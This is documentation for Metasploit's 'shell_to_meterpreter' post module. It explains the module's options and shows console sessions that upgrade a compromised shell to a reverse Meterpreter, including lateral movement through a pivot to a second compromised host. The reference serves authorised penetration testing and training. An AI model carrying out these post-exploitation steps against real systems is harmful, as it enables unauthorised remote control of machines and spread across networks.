 `shell_to_meterpreter` allows you to upgrade a shell session to Meterpreter. It can be launched as
a post module, or from the `sessions` command. By default, this module will use a reverse
Meterpreter.

## Important Options

**HANDLER**

The handler option is for starting a multi/handler to receive the connection. By default this is
true, because you will need it. But if for some reason if you're setting one separately, you may
want to consider having it as false.

**LHOST**

The LHOST option is for the reverse Meterpreter you are upgrading to. By default, the module can
figure it out for you. But over a pivot, you will need to manually set this, because session
objects don't necessarily have that information.

**LPORT**

The LPORT option is also for the reverse Meterpreter you are upgrading to.

**PAYLOAD_OVERRIDE**

This is an advanced option. If you don't want to use the default reverse Meterpreter, then you can
use this.

**PLATFORM_OVERRIDE**

Used in conjunction with `PAYLOAD_OVERRIDE`. Use this to specify the platform the payload should run on.

## Scenarios

**Using sessions -u**

`sessions -u` is the same as running the post module against a specific session. However, this
is limited to using the default reverse Meterpreter payload, so you will not be able to use it
via a pivot.

Usage is rather simple. At the msf prompt, first off, read the sessions table to see which one you
want to upgrade:

```
msf > sessions

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.146.1:4444 -> 192.168.146.128:1204 (192.168.146.128)

msf >
```

In this demonstration, session 1 is a shell, so we upgrade that:

```
msf > sessions -u 1
```

**Upgrading a shell via a pivot**

This scenario is a little tricky, because the default options won't work over a pivot. The problem
is that if you got a session with a bindshell, your LHOST will say "Local Pipe". And if you got it
with a reverse shell, the LHOST is actually an IP range. Neither is an acceptable format for the
LHOST option.

There are two ways you can choose: either you must manually set LHOST, or you could choose a
bind Meterpreter. The second is really easy, all you need to do is ```set PAYLOAD_OVERRIDE```.

If you prefer to manually set LHOST, this should be the compromised host you're pivoting from.
Perhaps a digram will help to explain this:

```
|-------------|       |-------------------|       |-------------------|
|   Attacker  | <---> | Compromised box A | <---> | Compromised box B |
|-------------|       |-------------------|       |-------------------|
 192.168.146.1         192.168.146.128
                       192.168.1.101 (VPN)          192.168.1.102(VPN)
```

In this example, let's start with breaking into box A (192.168.146.128):

```
[*] Sending stage (957999 bytes) to 192.168.146.128
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.128:1208) at 2016-04-28 22:45:09 -0500

meterpreter >
```

We decide that box A is on a VPN, with IP 192.168.1.101. Also, we found box B as 192.168.1.102. We
need to create that pivot:

```
msf > route add 192.168.1.1 255.255.255.0 1
[*] Route added
```

And we break into box B (192.168.1.102) with a Windows bind shell:

```
[*] Command shell session 2 opened (Local Pipe -> Remote Pipe) at 2016-04-28 22:47:03 -0500
```

Notice this says "Local Pipe", which means the box B's session object doesn't really know box A's IP.
If you try to run shell_to_meterpreter this way, this is all you get:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[-] LHOST is "Local Pipe", please manually set the correct IP.
[*] Post module execution completed
```

To upgrade box B's shell, set LHOST to box A's 192.168.1.101. And that should connect correctly:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.1.101:4433 via the meterpreter on session 1
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.1.102
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
...
[*] Command stager progress: 100.00% (102108/102108 bytes)
[*] Meterpreter session 3 opened (192.168.146.1-192.168.146.128:4433 -> 192.168.1.102:1056) at 2016-04-28 22:50:56 -0500
```
